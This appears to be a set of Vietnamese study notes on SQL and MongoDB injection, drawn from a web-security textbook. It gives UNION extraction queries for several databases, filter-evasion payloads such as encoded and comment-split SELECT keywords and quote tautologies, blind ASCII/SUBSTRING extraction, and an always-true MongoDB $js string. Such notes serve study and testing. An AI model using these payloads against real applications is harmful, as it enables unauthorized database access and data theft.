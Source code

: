 The UNION Operator

- Sử dụng `UNION SELECT` tuy nhiên kết quả từ 2 lệnh `SELECT` phải có cùng số cột và kiểu dữ liệu

Extracting Useful Data

Extracting Data with UNION

- Oracle: `SELECT table_name||’:’||column_name FROM all_tab_columns`
- MS-SQL: `SELECT table_name+’:’+column_name from information_schema.columns`
- MySQL: `SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns`

Bypassing Filters

- Avoiding Blocked Characters
    - Sử dụng ASCII code
    - Nếu kí tự comment `--` bị block thì tạo payload ko cần sử dụng nó ví dụ `‘ or 1=1--` -> `‘ or ‘a’=’a`
- Circumventing Simple Validation
    - Thay vì sử dụng `SELECT` thì có thể sử dụng:
    - `SeLeCt`
    - `%00SELECT`
    - `SELSELECTECT`
    - `%53%45%4c%45%43%54`
    - `%2553%2545%254c%2545%2543%2554`
- Using SQL Comments
    - Sử dụng kí tự `/*` và `*/` để tạo khoảng trống trong payload
    - Ví dụ: `SELECT/*foo*/username,password/*foo*/FROM/*foo*/users`
    - Ví dụ: `SEL/*foo*/ECT username,password FR/*foo*/OM users`
- Exploiting Defective Filters

Second-Order SQL Injection

Advanced Exploitation

- Retrieving Data as Numbers
    - ASCII - trả về ASCII code
    - SUBSTRING - cắt string
    - `SUBSTRING(‘Admin’,1,1)` = A
    - `ASCII(‘A’)` = 65
    - -> `ASCII(SUBSTR(‘Admin’,1,1))` = 65
- Using an Out-of-Band Channel

Beyond SQL Injection: Escalating the Database Attack

Using SQL Exploitation Tools

SQL Syntax and Error Reference

Preventing SQL Injection

### Injecting into NoSQL

Injecting into MongoDB

- Trong JavaScript, `//` có nghĩa là comment, tuy nhiên để hàm $js luôn trả về true ko cần `//` là sử dụng `a’ || 1==1 || ‘a’==’a`, khi đó trở thành : `(this.username == ‘a’ || 1==1) || (‘a’==’a’ & this.password == ‘aaa’);`
